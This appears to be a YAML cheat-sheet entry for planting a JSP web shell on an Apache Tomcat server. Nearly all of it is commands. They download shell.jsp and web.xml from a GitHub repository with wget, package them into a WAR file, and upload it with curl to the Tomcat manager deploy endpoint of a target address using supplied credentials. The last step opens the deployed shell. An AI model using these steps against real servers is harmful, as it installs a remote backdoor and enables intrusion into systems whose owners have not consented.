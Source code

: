 ```yaml
---
functions:
  shell:
    - description: WAR and jsp web shell
      code: |
        (1) File Structure:
          ── shell.jsp
          ── WEB-INF
              ── web.xml
        (2) jar -cf shell.war *
        (3) curl --upload-file shell.war http://10.10.10.194:8080/manager/text/deploy?path=/{context}&update=true -u {username}
        (4) https://{address}/{context}

        mkdir WAR
        cd WAR 
        wget https://raw.githubusercontent.com/MidnightSeer/scripts/master/shell.jsp
        mkdir WEB-INF
        wget https://raw.githubusercontent.com/MidnightSeer/scripts/master/web.xml -O WEB-INF/web.xml
        jar -cf shell.war *


resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/shell.jsp
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/web.xml    
---
```

